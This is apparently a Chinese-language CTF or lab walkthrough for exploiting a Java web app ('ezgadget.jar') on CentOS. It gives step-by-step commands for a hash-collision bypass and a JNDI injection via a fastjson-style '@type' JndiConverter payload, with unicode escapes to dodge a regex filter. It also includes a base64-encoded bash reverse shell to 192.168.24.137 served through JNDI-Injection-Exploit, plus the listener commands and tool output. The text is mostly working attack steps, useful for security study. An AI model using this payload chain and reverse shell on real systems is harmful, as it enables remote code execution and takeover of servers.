 java版本：8
目标机系统：centos7

踩坑：
1.必须保证java版本一致，运行网站的为8，则攻击机也需要为8（不然JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar会报warning）
2.目标机不能是windows和ubuntu（包括kali），因为要使用```bash -i >& /dev/tcp/ip/port 0>&1```反弹shell，windows没有```bash```命令，ubuntu和kali默认是没开bash的网络重定向选项的。（参考https://blog.csdn.net/qq_43199509/article/details/120028288 ,其中的修改方法并没有效果）
可以先运行```nc -lnvp 9999```和```bash -i >& /dev/tcp/127.0.0.1/9999 0>&1```查看效果


1.目标机运行网页
```java -jar ezgadget.jar```

2.先访问```ip:8080```
根据源码可以发现先需要访问```ip:8080/json```
然后传入```str```和```input```两个参数（这里我使用GET传参```str```，POST传参```input```）
获得一串数值：```swyeXdKuyCofJ7k5```(每一次都不一样)
运行hash碰撞脚本```python test.py```输入这一个字符串，会获得和这个字符串hash值相同的串
（原理）
如我这里得到的是```r%C2%96yeXdKuyCofJ7k5```
然后可以先GET传入```str=r%C2%96yeXdKuyCofJ7k5```,r然后POST传入```input=rmi.```，若页面为```Hacker get out!!!```则传入内容正确

3.反弹shell
监听12345端口```ncat -lnvp 12345```

运行jndi脚本```java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0LjEzNy8xMjM0NSAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.24.137" ```
这里的```-C```是装载的执行代码，```YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0LjEzNy8xMjM0NSAwPiYx```是```bash -i >& /dev/tcp/192.168.24.137/12345 0>&1```的base64形式，```-A```是操作机的ip

回显：
```
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[ADDRESS] >> 192.168.24.137
[COMMAND] >> bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjI0LjEzNy8xMjM0NSAwPiYx}|{base64,-d}|{bash,-i}
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.24.137:1099/ntk8wm
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.24.137:1099/hjlzd5
ldap://192.168.24.137:1389/hjlzd5
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.24.137:1099/pcuszd
ldap://192.168.24.137:1389/pcuszd
```

这里选```Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):```的内容：```rmi://192.168.24.137:1099/ntk8wm```

这里input要绕一下正则匹配，用unicode：
```input={"@type":"org.apache.xbean.propertyeditor.\u004a\u006e\u0064\u0069Converter","AsText":"\u0072\u006d\u0069://192.168.24.137:1099/ntk8wm"}```

成功反弹shell
